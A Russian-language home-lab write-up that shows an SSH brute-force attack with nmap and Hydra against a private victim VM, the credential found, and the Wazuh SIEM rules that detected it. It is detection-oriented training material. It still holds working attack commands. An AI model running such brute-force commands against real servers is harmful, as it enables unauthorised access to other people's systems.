





# 01 — SSH Brute Force

## Описание

SSH Brute Force - это атака, при которой злоумышленник перебирает пароли к SSH сервису
до нахождения верного. Один из самых распространённых способов получить первоначальный
доступ к Linux серверу с открытым SSH портом и слабыми учётными данными.

## Стенд

| Роль | Машина | IP |
|---|---|---|
| Атакующий | Kali Linux | 10.10.10.10 |
| Жертва | dvwa-victim (Ubuntu 26.04) | 10.10.10.30 |
| SIEM | wazuh-siem | 10.10.10.20 |

## MITRE ATT&CK маппинг

| Поле | Значение |
|---|---|
| Тактика | TA0006 — Credential Access |
| Техника | T1110 — Brute Force |
| Суб-техника | T1110.001 — Password Guessing |

## Атака

### 1. Разведка: проверка открытого порта

```bash
nmap -p 22 10.10.10.30
```

Результат: порт 22 открыт, SSH доступен.

### 2. Брутфорс с помощью Hydra

```bash
hydra -l labuser -P /tmp/test.txt ssh://10.10.10.30 -t 2 -W 1 -V
```

Hydra перебирает пароли из wordlist по одному. Через несколько секунд находит:

```bash
[22][ssh] host: 10.10.10.30  login: labuser  password: password123
```



### 3. Вход по найденному паролю

```bash
ssh labuser@10.10.10.30
```



## Детекция

### Что поймал Wazuh SIEM

| Rule ID | Описание | Severity |
|---|---|---|
| 5760 | sshd: authentication failed | 5 |
| 5763 | sshd: brute force trying to get access | 10 |
| 5551 | PAM: Multiple failed logins in a small period of time | 10 |
| 5715 | sshd: authentication success | 3 |

Wazuh зафиксировала 484 неудачных попытки входа и резкий всплеск на графике.
Rule 5763 сработал: Wazuh обнаружил паттерн брутфорса.
После успешного входа сработал rule 5715.







## Выводы

Wazuh успешно детектировал брутфорс через встроенные правила sshd.
Rule 5763 сработал в течение первой минуты атаки.
Пароль `password123` находится в верхних строчках rockyou.txt, что является риском для любого открытого SSH-соединения.